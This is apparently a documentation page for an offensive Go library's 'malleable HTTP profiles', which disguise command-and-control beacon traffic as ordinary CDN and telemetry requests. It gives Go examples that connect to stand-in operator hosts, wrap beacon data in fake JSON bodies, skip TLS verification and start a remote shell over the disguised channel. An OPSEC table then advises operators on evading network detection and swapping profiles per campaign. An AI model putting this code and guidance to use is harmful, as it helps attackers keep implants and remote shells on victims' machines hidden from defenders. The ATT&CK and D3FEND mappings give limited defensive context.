

# Malleable HTTP profiles

[← c2 index](README.md) · [docs/index](../../index.md)

## TL;DR

Wrap any HTTP transport in a **profile** that shapes traffic to look
like benign web activity: GET to plausible CDN-style URIs, custom
headers (`Referer`, `Accept`), real browser User-Agent, optional data
encoders. A network analyst inspecting the wire sees jQuery downloads,
not C2 callbacks.

| You want… | Use | Effect |
|---|---|---|
| Cover beacon traffic as benign HTTP | wrap any [`c2/transport`](transport.md) HTTP path with a profile | URLs / headers / methods all match the profile shape |
| Use a Cobalt Strike-style profile you already have | parse + load via [`Profile`](#profile) struct | One profile drives both inbound + outbound shaping |
| Encode beacon data into a header / cookie / body chunk | configure `DataEncoder` | Beacon bytes look like base64 session ID / form data / etc. |

What this DOES achieve:

- **HTTP-structure** cover, not just TLS encryption. Even
  TLS-terminating proxies see plausible URLs, headers, and
  request rhythms.
- Composable: works with any HTTP transport (TLS / uTLS /
  raw HTTP for testing).
- One profile per campaign — defenders that fingerprint
  campaign A's profile don't automatically catch campaign B
  if you swap.

What this does NOT achieve:

- **Doesn't hide that you're beaconing** — request frequency is
  observable even with perfect shape. Configure jitter +
  large intervals; pair with [`evasion/sleepmask`](../evasion/sleep-mask.md)
  to keep the implant invisible BETWEEN beacons.
- **Profile freshness** — popular profiles (CS Malleable
  defaults, public OST configs) are signature-fingerprinted
  by AV / EDR vendors. Custom-build per engagement.
- **No JA3/JA4 cover** — that's the TLS layer. Combine with
  uTLS via [`c2/transport`](transport.md).

## Primer

TLS encrypts payload bytes; it does not hide HTTP **structure**.
Network analysts who terminate TLS at a corporate proxy (or just see
flow metadata) still observe URL paths, request frequencies, header
sets, and body sizes. A reverse shell that hits `/api/data` every
five seconds is trivially clusterable.

Malleable profiles steal a trick from Cobalt Strike: shape the C2
into HTTP requests that look like ordinary web traffic. The profile
holds:

- **`GetURIs`** — list of URI patterns for data retrieval. The
  transport rotates through them. Examples:
  `/jquery-3.7.1.min.js`, `/static/css/bootstrap.min.css`.
- **`PostURIs`** — same for data submission.
- **`Headers`** — custom request headers (`Referer`, `Accept`,
  `Cache-Control`).
- **`UserAgent`** — pinned User-Agent string. Pair with
  [`useragent`](https://pkg.go.dev/github.com/oioio-space/maldev/useragent) for randomised real-browser UAs.
- **`DataEncoder` / `DataDecoder`** — optional transforms applied to
  payload bytes before the request body is built / after the response
  body is parsed. Lets the operator wrap C2 in (e.g.) a fake JSON
  envelope, hide it inside an image-shaped blob, or further encrypt
  on top of TLS.

## How it works



The handler on the operator side accepts requests on the same URIs
and responds with the next chunk. With realistic timing (jitter, sleep)
the traffic is indistinguishable from a slow CDN page-load.

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/c2/transport`](https://pkg.go.dev/github.com/oioio-space/maldev/c2/transport) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## Examples

### Simple

```go
import (
    "context"
    "time"

    "github.com/oioio-space/maldev/c2/transport"
)

profile := &transport.Profile{
    GetURIs:   []string{"/jquery-3.7.1.min.js", "/popper.min.js"},
    PostURIs:  []string{"/api/v2/telemetry"},
    Headers:   map[string]string{"Referer": "https://docs.example/"},
    UserAgent: "Mozilla/5.0 (Windows NT 10.0; Win64) AppleWebKit/537.36 Chrome/124",
}
tr := transport.NewMalleable("https://operator.example", 10*time.Second, profile)
_ = tr.Connect(context.Background())
```

### Composed (pair with the `useragent` package)

```go
import (
    "github.com/oioio-space/maldev/c2/transport"
    "github.com/oioio-space/maldev/useragent"
)

db, _ := useragent.Load()
ua := db.Filter(func(e useragent.Entry) bool { return e.Browser == "Chrome" }).Random()

profile := &transport.Profile{
    GetURIs:   []string{"/jquery-3.7.1.min.js"},
    UserAgent: ua.UserAgent,
}
tr := transport.NewMalleable("https://operator.example", 10*time.Second, profile)
_ = tr.Connect(context.Background())
```

### Advanced (encoder pair — wrap C2 in a fake JSON body)

```go
import (
    "encoding/base64"
    "fmt"
)

profile := &transport.Profile{
    PostURIs: []string{"/api/v1/events"},
    DataEncoder: func(b []byte) []byte {
        return []byte(fmt.Sprintf(`{"event":"page_view","payload":%q}`,
            base64.StdEncoding.EncodeToString(b)))
    },
    DataDecoder: func(b []byte) []byte {
        // Parse JSON, base64-decode payload, return raw bytes.
        // Implementation omitted.
        return decodeJSONPayload(b)
    },
}
```

### Complex (full chain — uTLS + cert pin + malleable + shell)

```go
import (
    "crypto/tls"
    "net/http"
    "time"

    "github.com/oioio-space/maldev/c2/shell"
    "github.com/oioio-space/maldev/c2/transport"
)

httpTr := &http.Transport{
    TLSClientConfig: &tls.Config{InsecureSkipVerify: true},
}

profile := &transport.Profile{
    GetURIs:   []string{"/jquery-3.7.1.min.js", "/bootstrap.min.css"},
    PostURIs:  []string{"/api/v2/metrics"},
    UserAgent: "Mozilla/5.0 (Windows NT 10.0; Win64) Chrome/124",
    Headers:   map[string]string{"Referer": "https://docs.example/"},
}
tr := transport.NewMalleable("https://cdn.example.com", 10*time.Second, profile,
    transport.WithTLSConfig(httpTr))

sh := shell.New(tr, nil)
_ = sh.Start(context.Background())
sh.Wait()
```

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| Identical URI in every C2 cycle | NIDS clustering — rotate through `GetURIs` and randomise |
| Stale User-Agent strings | Defenders periodically refresh "real browser UA" lists; pair with [`useragent`](https://pkg.go.dev/github.com/oioio-space/maldev/useragent) for fresh entries |
| `Referer` always identical or absent | Behavioural NIDS; vary the `Referer` per cycle if possible |
| POST/GET ratio mismatched with cover content (e.g. constant POSTs to a "static asset" URI) | Heuristic — match GET/POST distribution to the cover content |
| Body size patterns (every request exactly 32 KB) | Add randomised padding inside `DataEncoder` |
| TLS handshake fingerprint | Pair with uTLS via `WithTLSConfig` + a uTLS-backed `*http.Transport` |

**D3FEND counters:**

- [D3-NTA](https://d3fend.mitre.org/technique/d3f:NetworkTrafficAnalysis/)
  — content + header analysis on TLS-terminated traffic.
- [D3-FCR](https://d3fend.mitre.org/technique/d3f:FileContentRules/)
  — YARA-like rules on response bodies.

**Hardening for the operator:** keep `GetURIs` plausible and
rotate; choose a cover that matches the operator endpoint's
hostname (a CDN-shaped FQDN paired with `/jquery-*.min.js` is
believable; `/api/data` is not); randomise jitter at the shell
layer.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | Application Layer Protocol: Web Protocols | HTTP traffic shaping | D3-NTA |

## Limitations

- **No bidirectional streaming.** HTTP is request/response. The
  shell layer batches I/O into discrete chunks.
- **Body size cap.** Some CDNs / proxies truncate at 1–10 MB. Chunk
  large transfers across multiple requests.
- **Encoder/decoder discipline.** Profiles are operator + implant
  pairs — both sides must agree on `DataEncoder` / `DataDecoder`.
- **No malleable C2 profile DSL.** This package implements the
  primitives; defining a Cobalt Strike-style `.profile` DSL parser
  is out of scope.

## See also

- [Transport](transport.md) — base `Transport` interface and uTLS
  integration via `WithTLSConfig`.
- [`useragent`](https://pkg.go.dev/github.com/oioio-space/maldev/useragent) — random real-browser UAs.
- [Cobalt Strike, *Malleable C2 Profile reference*](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2_main.htm)
  — primer on the technique class (different DSL, same idea).
